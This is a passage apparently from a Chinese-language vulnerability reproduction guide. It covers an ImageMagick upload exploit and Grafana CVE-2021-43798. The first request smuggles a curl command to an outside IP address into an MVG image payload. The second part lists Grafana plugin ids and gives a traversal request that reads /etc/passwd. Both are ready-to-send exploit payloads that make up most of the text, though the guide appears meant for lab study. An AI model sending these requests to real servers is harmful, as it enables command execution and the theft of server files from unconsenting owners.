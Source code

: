 ```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "111.111.111.111:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

### Grafana插件模块目录穿越漏洞

> CVE-2021-43798

Grafana 8.x 插件模块目录穿越漏洞

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用../的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件（你也可以将其中的alertlist换成其他合法的插件id）：

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```
